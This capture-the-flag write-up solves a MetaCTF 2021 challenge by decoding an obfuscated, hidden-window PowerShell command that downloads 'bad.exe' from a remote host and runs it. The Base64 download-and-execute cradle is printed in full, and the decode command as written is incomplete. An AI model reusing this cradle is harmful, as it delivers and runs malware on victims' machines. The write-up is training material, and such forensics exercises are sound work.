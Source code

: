 # MetaCTF 2021

## My Logs Know What You Did (125pts)

### Description: 

>While investigating an incident, you identify a suspicious powershell command that was run on a compromised system ... can you figure out what it was doing?

`C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -noP -sta -w 1 -enc TmV3LU9iamVjdCBTeXN0ZW0uTmV0LldlYkNsaWVudCkuRG93bmxvYWRGaWxlKCdodHRwOi8vTWV0YUNURntzdXBlcl9zdXNfc3Q0Z2luZ19zaXRlX2QwdF9jMG19L19iYWQuZXhlJywnYmFkLmV4ZScpO1N0YXJ0LVByb2Nlc3MgJ2JhZC5leGUn`

### Step 1 - Understanding the Command:

In this Powershell command, we can see it runs a command but it appears to be encoded. The `-enc` flag encodes the payload in Base64, so we can throw it into a Base64 decoder and extact some data.

### Step 2 - Decode Base64 

```
root@kali~$ TmV3LU9iamVjdCBTeXN0ZW0uTmV0LldlYkNsaWVudCkuRG93bmxvYWRGaWxlKCdodHRwOi8vTWV0YUNURntzdXBlcl9zdXNfc3Q0Z2luZ19zaXRlX2QwdF9jMG19L19iYWQuZXhlJywnYmFkLmV4ZScpO1N0YXJ0LVByb2Nlc3MgJ2JhZC5leGUn | base64 
```
 
### Step 3 - Flag 

```MetaCTF{super_sus_st4ging_site_d0t_c0m}```
